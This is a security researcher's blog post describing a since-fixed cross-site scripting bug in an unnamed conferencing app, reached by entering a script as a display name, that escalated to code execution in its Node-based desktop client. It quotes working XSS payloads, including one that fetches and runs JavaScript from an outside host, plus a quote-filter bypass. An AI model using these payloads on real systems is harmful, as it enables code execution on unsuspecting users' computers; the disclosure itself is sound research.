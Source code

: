 ```yaml
---
layout: post
title:  "XSS to RCE in ..."
date:   2015-09-08 17:28:00
categories: xss rce bugbounty
---
```


**Note: this has been fixed**.

## XSS to RCE "yeah right, RSnake"

I accidentally triggered a cross-site scripting (XSS) vulnerability in &lt;conf provider X&gt; that worked when using the web application as well as the native OS X application (and possibly additional clients). Nowadays, XSS -> Remote Code Execution (RCE) is possible thanks to Node. For every person in any meeting that I join, I could execute code on their computer.

# Standup

I entered a meeting with the classic first name of `<img src=x onerror=alert()>` (the [bobby tables](http://xkcd.com/327/) of XSS). A few minutes into the conversation, [patrick] noticed a broken image pop up. Uh oh. When I asked if he also saw an alert box, my colleague [ben] chimed in and said yes.

So we have XSS. Sweet. In at least two clients. Hmmm, this could be bad.

![chat](/assets/xssrce/badtime.jpg)

## eval(prompt())

We noticed that there was some filtering going on (such as stripping quotes), so we'd have to use `String.toCharCode` to generate any string values. The web app enforced a value length but this is easily bypassed with a proxy and was not enforced in the desktop client. [ben] quickly came up with a good way to explore the impact of this xss with a simple debug console:

`<img src=x onerror=eval(prompt())>` (35 chars)

This lets us generate payloads without having to generate `toCharCode` code each time. Sure this isn't difficult, but an executing prompt is so much easier to use.

## Exploring the native app

[greg] took a look at the &lt;conf provider X&gt; native application and noticed it used Node. Perhaps `process.open` would work.

It did.

![chat](/assets/xssrce/process.png)

## Putting it all together

That's when [ben] put everything together using a very short payload:

`<img src=x onerror=$.getScript(String.fromCharCode(47,47,120,111,114,46,99,99))>` (80 chars)

Now join any existing meeting and enter the above payload as your name. Everyone in the room see an alert box. Those using the native apps will also see their calculators open.

![Alert](/assets/xssrce/alert.png)

![Calculator!](/assets/xssrce/calc.png)

## How it works

The use of `String.fromCharCode` is just a classic way to bypass filtering/escaping of quotes. `String.fromCharCode(47,47,120,111,114,46,99,99)` is `//xor.cc`.

The payload can be simplified as:

`<img src=x onerror=$.getScript("//xor.cc")>`

[`$.getScript`](https://api.jquery.com/jquery.getscript/) tells jQuery to fetch and execute the javascript at `xor.cc`. The fetched javascript that opens the calculator is:

`process.open("/Applications/Calculator.app/Contents/MacOS/Calculator");` (72 chars)

## Why it sort of matters

XSS is XSS is XSS. But XSS in an app with an API to the filesystem is XSS is worse. &lt;conf provider X&gt; meetings typically are... unauthenticated. Everyone raise your hand. Now put down your hand if you have required password authentication for every meeting you have joined. Look to your left, look to your right, and notice everyone's hand is still up. If you've used &lt;conf provider X&gt;, chance are you've used it in a manner that let's this exploit work on any publicly known or guessable &lt;conf provider X&gt; meeting ID. I did not try to brute force the meeting space for open meetings. That would have been bad.

## Calculators

You can't have a good exploit unless calculators are involved. See [PDF content-type sniffing](https://bounty.github.com/researchers/avlidienbrunn.html) for an even better use of calculators in an attack.

![calc!!!](/assets/xssrce/igotcalc.png)

## Conclusion

Big ups to the GitHub appsec team. Within one hour we went from XSS to RCE. And it played out like something in one of those movies or TV shows. "We popped a faux console using eval and prompt while ripping open the binary to leverage a libary with system access to perform remote code execution... to open a calculator." Most of the credit has to go to [ben] and [greg], I just found XSS and I wouldn't have even known without [patrick].

[Did I mention that we're hiring an intern for the appsec team?](https://jobs.lever.co/github/8be6828a-2762-42da-bd11-8306addb0909)


[patrick]: https://twitter.com/patricktoomey "@patricktoomey"
[ben]: https://twitter.com/mastahyeti "@mastahyeti"
[greg]: https://twitter.com/gose1 "@gose1"
